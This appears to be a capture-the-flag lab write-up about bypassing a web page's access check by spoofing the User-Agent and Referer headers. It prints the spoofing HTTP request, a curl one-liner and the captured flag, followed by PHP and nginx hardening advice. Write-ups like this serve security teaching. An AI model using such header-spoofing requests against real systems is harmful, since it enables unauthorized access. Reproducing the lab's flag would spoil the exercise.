# HTTP Header Spoofing Vulnerability

## 🎯 Overview
This vulnerability demonstrates insufficient HTTP header validation where the application relies on User-Agent and Referer headers for authentication/authorization, allowing unauthorized access through header manipulation.

## 🔍 Vulnerability Details
- **Endpoint**: `/index.php?page=e43ad1fdc54babe674da7c7b8f0127bde61de3fbe01def7d00f151c2fcca6d1c`
- **Required Headers**: 
  - User-Agent: `ft_bornToSec`
  - Referer: `https://www.nsa.gov/`
- **Attack Vector**: HTTP Header Manipulation
- **Discovery**: Source code comments revealing required values

## ⚔️ Exploitation Process

### 1. Source Code Analysis
```html
<!-- Found in page source -->
<!-- You must cumming from : "https://www.nsa.gov/" to go to the next step -->
<!-- Let's use this browser : "ft_bornToSec". It will help you a lot. -->
```

### 2. Header Manipulation
```http
GET /index.php?page=e43ad1fdc54babe674da7c7b8f0127bde61de3fbe01def7d00f151c2fcca6d1c HTTP/1.1
Host: x.x.x.x
User-Agent: ft_bornToSec
Referer: https://www.nsa.gov/
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Connection: keep-alive
```

### 3. Exploit Execution
```bash
# Execute exploit using cURL
curl 'http://x.x.x.x/index.php?page=e43ad1fdc54babe674da7c7b8f0127bde61de3fbe01def7d00f151c2fcca6d1c' \
  -H 'User-Agent: ft_bornToSec' \
  -H 'Referer: https://www.nsa.gov/' \
  | grep 'The flag is'
```

### Attack Result
**Flag**: f2a29020ef3132e01dd61df97fd33ec8d7fcd1388cc9601e7db691d17d4d6188

## 🛡️ Security Issues Identified
1. Reliance on easily spoofable headers
2. Security through obscurity
3. Sensitive information in comments
4. Weak authentication mechanism
5. Missing proper access controls

## 🔒 Recommended Security Fixes

### 1. Implement Proper Authentication
```php
class AuthenticationManager {
    public function validateRequest($request) {
        if (!$this->isValidSession($request)) {
            throw new AuthenticationException('Invalid session');
        }
        
        if (!$this->isAuthorizedIP($request->getClientIp())) {
            throw new AuthenticationException('Unauthorized IP');
        }
        
        return true;
    }
}
```

### 2. Secure Headers Implementation
```php
class SecurityHeaders {
    public function setSecurityHeaders() {
        header('X-Frame-Options: DENY');
        header('X-XSS-Protection: 1; mode=block');
        header('X-Content-Type-Options: nosniff');
        header('Referrer-Policy: strict-origin-when-cross-origin');
        header('Content-Security-Policy: default-src \'self\'');
    }
}
```

### 3. Access Control System
```php
class AccessControl {
    private $requiredPermissions = [
        'sensitive_page' => ['ROLE_ADMIN', 'ROLE_SECURITY'],
        'normal_page' => ['ROLE_USER']
    ];
    
    public function checkAccess($page, $userRoles) {
        if (!isset($this->requiredPermissions[$page])) {
            return false;
        }
        
        return array_intersect(
            $this->requiredPermissions[$page], 
            $userRoles
        ) !== [];
    }
}
```

### 4. Security Measures Checklist
- [ ] Implement proper authentication
- [ ] Remove sensitive comments
- [ ] Add request validation
- [ ] Implement access controls
- [ ] Set security headers
- [ ] Add request logging
- [ ] Monitor suspicious activities

## 📝 Best Practices

### Request Validation
1. Never trust HTTP headers
2. Implement proper authentication
3. Use secure session management
4. Validate all input
5. Log suspicious activities

### Security Headers Configuration
```nginx
# Nginx security headers
add_header X-Frame-Options "DENY";
add_header X-XSS-Protection "1; mode=block";
add_header X-Content-Type-Options "nosniff";
add_header Referrer-Policy "strict-origin-when-cross-origin";
add_header Content-Security-Policy "default-src 'self'";
```

## 📚 Additional Resources
- [OWASP Secure Headers Project](https://owasp.org/www-project-secure-headers/)
- [HTTP Security Headers Best Practices](https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers)
- [Authentication Best Practices](https://cheatsheetseries.owasp.org/cheatsheets/Authentication_Cheat_Sheet.html)

## ⚠️ Disclaimer
This documentation is for educational purposes only. Always obtain proper authorization before testing security measures on any system.